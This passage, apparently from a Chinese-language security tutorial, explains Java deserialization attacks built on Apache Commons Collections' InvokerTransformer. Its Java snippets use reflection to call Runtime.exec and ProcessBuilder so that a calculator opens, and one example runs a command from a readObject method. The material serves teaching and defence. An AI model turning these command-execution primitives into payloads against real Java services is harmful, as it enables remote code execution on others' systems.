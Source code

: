 在这个函数中，调用了java反射机制，下面写一个正常的例子测试一下:  

	InvokerTransformer invokerTransformer = new InvokerTransformer("append", new Class[]{String.class}, new Object[]{new String("sb")});
	Object result = invokerTransformer.transform(new StringBuffer("who am i")) ;
	System.out.printf(result.toString());
	
有些朋友会想，那么我该如何去执行命令呢？java常见执行命令的方式有两个，分别是 new processBuilder(cmd).start()和Runtime.getRuntime().exec(cmd)。我们可以构造如下代码:
运行下面这段代码可以弹出计算器，mac下

	String[] cmds = new String[]{"open", "/Applications/Calculator.app/"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
win下
	
	String[] cmds = new String[]{"calc.exe"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
当然这样也可以
	
	ProcessBuilder processBuilder = new ProcessBuilder("open", "/Applications/Calculator.app/");
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("start", new Class[]{}, new Object[]{});
	invokerTransformer1.transform(processBuilder);
	
###  案例  
  java有一个特征，不管经过几层封装，封装成什么类型，最终在readObject的时候，都会按照被封装的倒序去执行readObject。(ps:这是一段极其抽象的话，为了解释这段抽象的话，我画了一个看起来很抽象的画，在下师从抽象派大师梵高)
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/73877567.jpg)
  即使最后是读者们执行readObject，最后也会一层一层到上帝来执行readObject，具体例子如下:
	
	public class A implements Serializable {
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        try {
            System.out.printf("whoami");
            new ProcessBuilder("calc.exe").start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    }
	
	public class Main {
    public static class A implements Serializable {
        private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
            try {
                System.out.printf("whoami");
                //Runtime.getRuntime().exec(new String[]{"calc.exe"});
                new ProcessBuilder("calc.exe").start();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
